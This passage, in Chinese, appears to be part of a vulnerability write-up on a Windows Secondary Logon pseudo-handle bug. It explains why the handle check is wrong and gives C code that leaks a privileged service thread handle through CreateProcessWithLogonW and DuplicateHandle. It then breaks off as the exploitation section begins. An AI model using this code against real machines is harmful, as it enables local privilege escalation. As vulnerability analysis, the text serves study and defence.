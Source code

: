 ```
      *Object = KeGetCurrentThread();
      return STATUS_SUCCESS;
    }
    return STATUS_INVALID_HANDLE;
    
    // Get from process handle table.
}

```

现在我们可以理解为什么代码检查29位了。它检查低2位是否设置了值（伪句柄 -1，-2），但即使较高的位被设置了，也一样应该被认为是有效的句柄。这便是错误根源所在。我们可以从内核代码发现，如果指定了-1，那么源进程就有完整的访问权限。但是，并没有什么用。因为源进程已经在我们的控制之下，并没有特权。

在另一方面，如果指定-2，则对当前线程有完全访问，但是该线程实际上是Secondary Logon服务，并且它也是用来处理RPC请求的线程池之一的现成。这显然是有问题的。

唯一的问题是如何我们才可以调用CreateProcessWithToken/Logon API来作为一个普通用户启动进程？调用者需要具有SeImpersonatePrivilege才行，但你很容易会考虑到以普通用户登录时，需要一个有效的用户帐号和密码，如果我们是一个恶意用户这是可以的，但如果我们在用漏洞攻击别人的话，还是不要这样为好。仔细看了看原来有一个特殊的标志，可以让我们不需要提供有效的凭证，名为LOGON_NETCREDENTIALS_ONLY。当它与登录API一起用于连接网络资源时，主令牌是基于主叫方的。这使我们无需特殊权限或需要用户的密码去创建进程。将其组合在一起，我们可以使用下面的代码捕获一个线程句柄：

```
HANDLE GetThreadHandle() {
  PROCESS_INFORMATION procInfo = {};
  STARTUPINFO startInfo = {};
  startInfo.cb = sizeof(startInfo);

  startInfo.hStdInput = GetCurrentThread();
  startInfo.hStdOutput = GetCurrentThread();
  startInfo.hStdError = GetCurrentThread();
  startInfo.dwFlags = STARTF_USESTDHANDLES;

  CreateProcessWithLogonW(L"test", L"test", L"test", 
                          LOGON_NETCREDENTIALS_ONLY, nullptr, L"cmd.exe", 
                          CREATE_SUSPENDED, nullptr, nullptr, 
                          &startInfo, &procInfo);
  HANDLE hThread = nullptr;  
  DuplicateHandle(procInfo.hProcess, (HANDLE)0x4, 
         GetCurrentProcess(), &hThread, 0, FALSE, DUPLICATE_SAME_ACCESS);
  TerminateProcess(procInfo.hProcess, 1);
  CloseHandle(procInfo.hProcess);
  CloseHandle(procInfo.hThread);
  return hThread;
} 

```

0x02 利用
=====

利用环节。很幸运这个句柄属于一个线程池线程，这意味着该线程将用来处理其他RPC请求。如果线程只存在于服务的一个请求中，用完就渣都不剩了的话将是一个棘手很多的利用。

你可能会认为首先要设置线程上下文才能利用此泄露句柄。不管是处于调试目的还是为了要让另一个进程支持恢复执行，我们都需要用SetThreadContext。它将保存CONTEXT的状态，包括寄存器值，如RIP和RSP，当线程恢复执行时，读取保存的值就可以从指定位置执行。这似乎是一个好方法，但是肯定也有问题。
